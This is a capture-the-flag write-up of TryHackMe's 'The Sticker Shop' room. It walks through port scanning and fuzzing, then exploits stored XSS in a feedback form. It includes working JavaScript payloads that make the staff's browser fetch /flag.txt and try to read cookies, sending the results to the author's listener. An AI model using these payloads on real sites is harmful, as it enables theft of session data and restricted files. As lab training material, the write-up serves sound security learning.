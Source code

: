# Write-Up: The Sticker Shop
**Date:** 01/27/2025

**User:** [JAKK](https://tryhackme.com/p/JAKK)

[The Sticker Shop](https://tryhackme.com/r/room/thestickershop) is an easy-ranked CTF box that challenges us to access a flag at a specified location of the web server. It introduces us to a common web vulnerability found in websites, seldom being showcased on TryHackMe.

## Reconaissance

### Port Scan
We start by scanning the target for open ports using *nmap*.
```
nmap -sV -sC -T4 -p0-65535 sticker.thm
```

```
Host is up (0.037s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:54:8c:e2:d7:67:ab:8f:90:b3:6f:52:c2:73:37:69 (RSA)
|   256 14:29:ec:36:95:e5:64:49:39:3f:b4:ec:ca:5f:ee:78 (ECDSA)
|_  256 19:eb:1f:c9:67:92:01:61:0c:14:fe:71:4b:0d:50:40 (ED25519)
8080/tcp open  http    Werkzeug httpd 3.0.1 (Python 3.8.10)
|_http-server-header: Werkzeug/3.0.1 Python/3.8.10
|_http-title: Cat Sticker Shop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see two open ports with the web service being offered on `8080`. Let's open the page with a web browser.

### Inspecting the Website
![Homepage of hosted website](img/StickerShop-InitialPage.png)

Apart from two buttons and cat images, there is nothing to see.

- We're not able to inspect the `/static/` route or its subfolders, such as `/static/images/`, which contains the image files. The images are sequentially named, i.e. `cat_sticker_1.png`, `cat_sticker_2.png`. The absence of `cat_sticker_3.png` likely tells us that there exist no other images. Since the file format is PNG, no secret information could have been embedded via steganography.
- Inspecting the buttons, we can see that *Home* leads us to `/`, i.e. the position we're currently at, while *Feedback* brings us to `/submit_feedback`. There we find an input form that allows us to submit feedback, which is sent to the same URI via POST.

![Feedback page of the hosted website](img/StickerShop-FeedbackPage.png)

- If we try to access the flag under the known location (`http://sticker.thm:8080/flag.txt`), we receive the response code `401`, which tells us that we are not authorized to access the page.

### Fuzzing
Let's see if we can find more resources on the server via `gobuster`. Since no domain name is known for the website, we can only enumerate directories, not subdomains. Additionally, we will also look for files with the extensions `.txt`, `.py`, `.bak` and `.sql`, to find potential backups or source code.

```
gobuster dir -u 'http://sticker.thm:8080/' -w '/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt' -x 'txt,py,bak,sql'
```

As a result, we only find the already known path `/flag.txt`.

In general, it's also worth checking if there are any hidden GET or POST parameters being evaluated on the known routes, which can be done via [arjun](https://github.com/s0md3v/Arjun).

```
arjun -u http://sticker.thm:8080/submit_feedback -m POST
```
```
[*] Scanning 0/1: http://sticker.thm:8080/submit_feedback
[*] Probing the target for stability
[*] Analysing HTTP response for anomalies
[+] Extracted 1 parameter from response for testing: feedback
[*] Logicforcing the URL endpoint
[!] No parameters were discovered.
```

Unfortunately, no hidden parameter can be found.

## Tampering With the Input Form
When we send feedback via the input form (on `/submit_feedback`), we're being told that the message will be evaluated shortly by the site's staff. It could be possible that the person doing this might use a web browser to access a restricted section of the website, in which case we can try to inject some Javascript code into the staff's rendered webpage by including code in our message. This of course only works if the submitted message isn't sanitized by the server and just handed down. To test this, we will start a simple webserver with Python and see if requests on it are being made.

We start the server with the following command.
```
python -m http.server 9000
```

We then send the following message via the form. The code included in the `<script>` tags prompts an HTTP request to our local server performed by the staff. Depending on the fact if a request is made, we can determine if the XSS attack works.
```
<script>
var req = new XMLHttpRequest();
req.open("GET", "http://10.9.4.33:9000/" + window.location.href, false);
req.send();
</script>
```
And indeed, we can see that the Javascript code of our submitted feedback is executed.
```
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
10.10.194.50 - - [27/Jan/2025 10:23:56] code 404, message File not found
10.10.194.50 - - [27/Jan/2025 10:23:56] "GET /http://127.0.0.1:8080/view_feedback HTTP/1.1" 404 -
```
Trying to navigate to the newly found route, `/view_feedback`, doesn't give us more information about the site since authentication is required. But now we can try to elevate the XSS to reach our goal!

Trying the easiest thing, we use the following feedback message to dump the session cookies of the staff. This only works if the creators of the website forgot to set the cookies as HttpOnly, allowing Javascript to access them.
```
<script>
var req = new XMLHttpRequest();
req.open("GET", "http://10.9.4.33:9000/" + document.cookie, false);
req.send();
</script>
```
Unfortunately, we reveive a request on `/`, meaning that the session cookies, if existent, can't be read by our injected code.

But since the staff obviously can access the `/view_feedback` route, which requires authentication, he will likely be able to also access `/flag.txt`. We therefore extend our payload a little bit and let the staff's browser make a request for the flag and then send us its value.

```
<script>
var flag_req = new XMLHttpRequest();
flag_req.open("GET", "/flag.txt", false);
flag_req.send();
var share_req = new XMLHttpRequest();
share_req.open("GET", "http://10.9.4.33:9000/" + flag_req.responseText, false);
share_req.send();
</script>
```

It's important to reference the flag by its relative path, otherwise the payload will not work. This is probably due to CORS rules, preventing the access to the file from outside the domain. Finally, we retrieve the flag from the requested URI that we can inspect on our local server.
```
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
10.10.194.50 - - [27/Jan/2025 10:33:07] code 404, message File not found
10.10.194.50 - - [27/Jan/2025 10:33:07] "GET /THM%7B-REDACTED_FLAG-%7D HTTP/1.1" 404 -
```

Note that the string is URL encoded. We can decode it with hURL.
```
hURL -u "THM%7B-REDACTED_FLAG-%7D"
Original    :: THM%7B-REDACTED_FLAG-%7D
URL DEcoded :: THM{-REDACTED_FLAG-}
```

## Conclusion
I really enjoyed this CTF, since XSS attacks are quite rare on TryHackMe and similar platforms, probably due to the necessary user interaction which needs to be emulated. Thanks to TryHackMe user [toxicat0r](https://tryhackme.com/p/toxicat0r) for creating this room.
